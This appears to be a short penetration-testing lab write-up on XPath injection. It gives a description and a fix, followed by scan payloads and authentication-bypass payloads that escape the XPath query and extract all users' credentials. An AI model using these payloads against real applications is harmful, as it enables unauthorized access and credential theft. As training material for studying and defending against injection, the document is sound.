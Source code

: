 #### 1.1. About

- similar attack to SQL injection (PHP warning: `SimpleXMLElement::xpath()`)
- SQL injection payloads could be used for detection
- to fix use a parameterized XPath interface or perform input validation (replace `'` with `&apos;`)


#### 1.2. Original request
```
GET /?name=test&password=pass HTTP/1.1
Host: ptl-daa08d37-1adc53b7.libcurl.so
Connection: close
```


#### 1.3. Burp scan
```
?name=x'+or+false()+or+''='o&password=pass
?name=xxx'+or+true()+or+''='o&password=pass
?name=xxx&password=x'+or+true()+or+''='o
?name=xxx&password=x'+or+false()+or+''='o
```
Note: both `name` and `password` parameters are injectable


#### 1.4. Authentication bypass

Method 1:
```
?name=admin&password=x'+or+true()+or+''='x
?name=admin&password=x'+or+''='
```

Method 2:
```
?name=admin']%00&password=pass         (break out of the original XPath query)
?name=admin'+or+1=1]%00&password=pass  (return all users)
?name=admin'+or+1=1]/parent::*/child::node()%00&password=pass (get the child node)
?name=admin'+or+1=1]/parent::*/child::node()%00&password=pass (get user credentials)
?name='+or+1=1]/parent::*/child::node()%00&password=pass      (get all credentials)
```
